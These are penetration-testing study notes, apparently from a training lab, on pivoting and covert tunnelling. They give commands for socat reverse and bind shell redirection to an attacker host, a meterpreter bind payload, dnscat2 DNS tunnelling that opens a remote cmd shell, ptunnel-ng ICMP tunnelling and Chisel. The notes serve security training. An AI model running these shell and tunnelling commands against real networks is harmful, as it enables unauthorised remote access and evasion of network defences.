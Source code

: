 #### Socat Redirection

- Reverse shell:
	- Once logged into target, you can use `socat` to create a pipe socket between 2 hosts.
	- `socat TCP4-LISTEN:8080,fork TCP4:[attacker_IP]:[listener_port]`
	- This will listen on the local port 8080 and forward back to our machine on the port of our choosing. This is good for pivoting if we have an internal machine that is communicating to the foothold host on port 8080.
- Bind shell:
	- same process, but have the foothold machine forward data to the `internal host` rather than `attacker machine`. 
	- On meterpreter, use something like `windows/x64/meterpreter/bind_tcp` and set `rhost [foothold_IP]` and `LPORT 8080`.
	- Since we set up the `socat` listener on 8080, the foothold will receive our bind_tcp payload and forward it to the internal host.

## DNS Tunnel

`Dnscat2` https://github.com/iagox86/dnscat2
- Tunnel that uses DNS protocol
- Installation
	- `sudo clone [github]`
	- `cd dnscat2/server/`
	- `sudo gem install bundler`
	- `sudo bundle install`
- `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`
- You will need to transfer the client to the host, or in the case of a Windows host use `dnscat2-powershell` https://github.com/lukebaggett/dnscat2-powershell
	- `Start-Dnscat2 -DNSserver [attacking_IP] -Domain inlanefreight.local -PreSharedSecret [key from dnscat2 server] -Exec cmd`
- dnscat2 prompt:
	- `?` list options
	- `window -i 1` drops into a shell

## ICMP Tunnel

- encapsulates traffic with ICPM packets containing echo requests and responses
- ptunnel-ng client and server tool (server on the pivot host)
- git clone https://github.com/utoni/ptunnel-ng.git
- install automake and autoconf
- sudo ./autogen.sh
- scp -r ptunnel-ng user@IP:~/
- on pivot host in /ptunnel-ng/src: sudo ./ptunnel-ng -r[pivot_IP] -R22
- Attack host: sudo ./ptunnel-ng -p[pivot_IP] -l2222 -r[pivot_IP] -R22
- Attack host: ssh -p2222 -l[user] 127.0.0.1

## Chisel/HTTP Tunnel

SOCKS5 Tunneling using HTTP. Useful to create a tunnel in a firewall restricted environment.
https://github.com/jpillora/chisel.git
